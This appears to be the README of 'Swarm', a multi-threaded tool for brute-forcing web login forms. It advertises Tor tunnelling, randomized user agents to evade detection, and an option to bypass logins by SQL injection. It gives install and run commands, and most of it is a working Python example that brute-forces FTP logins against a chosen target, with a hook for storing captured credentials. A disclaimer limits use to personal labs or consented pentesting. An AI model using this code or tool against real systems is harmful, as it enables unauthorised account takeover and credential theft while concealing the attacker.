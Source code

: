 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Able to tunnel requests through tor, just use --tor option
* Able to by-pass logins via SQL Injections if option is specified
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Using Hive to Develop New Tools - FTPHive
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                         pass
                return success

        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

        def post_exploit(self,credential):
                # -------- Do Something ----------
                # Such as display a custom login message
                # Store credentials in a Database, etc.
                exit()

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'                    # specify the target
ftp_bruteforce.usernameFile = 'usernames.txt'                   # the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'                   # the password file to use
ftp_bruteforce.verbose = True                                   # verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.post_exploit)  # Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()                                          # setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)                               # starts the bruteforcing task

```

